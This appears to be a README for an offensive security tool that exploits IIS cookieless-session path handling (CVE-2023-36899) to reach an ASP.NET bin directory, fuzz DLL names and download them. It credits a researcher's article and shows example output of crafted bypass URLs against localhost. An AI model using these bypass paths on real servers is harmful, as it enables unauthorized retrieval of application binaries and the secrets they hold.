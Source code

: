 # Cookieless-Session-Bypasser-IIS
Used to perform cookieless session bypasses to reach into the bin directory and fuzz dll names and download them if the bug is present  hats off to the iis god himself and critical thinking podcast and SHubs without their constant knowledge drops i would have never learned this 


Article from the iis god himself
https://soroush.me/blog/2023/08/cookieless-duodrop-iis-auth-bypass-app-pool-privesc-in-asp-net-framework-cve-2023-36899/


EXAMPLE OUTPUT
================


Found URLs:
[http://127.0.0.1:8200//(S(x))/b/(S(x))in/Newtonsoft.Json.dll,
http://127.0.0.1:83//(S(x))/b/(S(x))in/Newtonsoft.Json.dll,
http://127.0.0.1:8001//(S(x))/b/(S(x))in/Newtonsoft.Json.dll,
http://127.0.0.1:8086//(S(x))/b/(S(x))in/Newtonsoft.Json.dll,
https://127.0.0.1//(S(x))/b/(S(x))in/Newtonsoft.Json.dll,
http://127.0.0.1:81//(S(x))/b/(S(x))in/Newtonsoft.Json.dll,
http://127.0.0.1:81//(S(x))/b/(S(x))in/Newtonsoft.Json.dll,
http://127.0.0.1:8081//(S(x))/b/(S(x))in/Newtonsoft.Json.dll,
https://127.0.0.1//(S(x))/b/(S(x))in/Newtonsoft.Json.dll,
https://127.0.0.1//(S(x))/b/(S(x))in/Newtonsoft.Json.dll,
https://127.0.0.1//(S(x))/b/(S(x))in/Newtonsoft.Json.dll,
http://127.0.0.1:8085//(S(x))/b/(S(x))in/Newtonsoft.Json.dll,
https://127.0.0.1//(S(x))/b/(S(x))in/Newtonsoft.Json.dll,
https://127.0.0.1//(S(x))/b/(S(x))in/Newtonsoft.Json.dll,
http://127.0.0.1:81//(S(x))/b/(S(x))in/Newtonsoft.Json.dll,
http://127.0.0.1:81//(S(x))/b/(S(x))in/Newtonsoft.Json.dll]
